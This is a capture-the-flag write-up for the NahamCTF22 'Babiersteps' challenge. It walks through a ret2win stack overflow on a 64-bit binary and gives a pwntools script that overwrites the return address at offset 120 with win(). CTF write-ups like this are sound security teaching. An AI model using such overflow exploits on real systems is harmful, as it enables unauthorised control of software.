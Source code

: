 ```yaml
---
title: "Babiersteps"
date: 2022-05-01
description: "A classic ret2win challenge on a 64-bit binary, overflow RIP with win() address to get flag."
draft: false
enableToc: false
enableTocContent: false
tags:
- pwn
- NahamCTF22
image: "images/thumbnails/babiersteps.png"
---
```


## Checksec
```
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Full
```
We only care about the stack canary as we will be overflowing RIP to control execution flow, and thankfully It's disabled.

## Exploitation
### 1. RIP Control

We overflow the binary with a cyclic pattern, however, for this being a 64-bit binary we can't overflow RIP with a non-canonical address.

{{< expand "Canonical Address" >}}
An address is said to be canonical in the 64-bit world when the upper 16 bits are copies of the 48th bit.
{{< /expand >}}

The easiest way to find the RIP offset without overflowing RIP is by breaking at the `ret` instruction and searching for our pattern in `rsp`.

![](./babiersteps.png)

<center>

![](/img/ach_offset.png)

</center>

### 2. Writing our exploit
Now we have all the pieces that we need to build our exploit, we will do the rest straight from pwntools.

```python
from pwn import *

context.binary = e = ELF("./babiersteps")
context.encoding = 'latin'

if args['REMOTE']:
    pass
else:
    io = e.process()

OFFSET = 120
io.clean()
io.fit(
    {120: e.sym.win}
)
io.interactive()
```

![](./shell.png)

<center>

![](/images/mc/ach_shell.png)

</center>
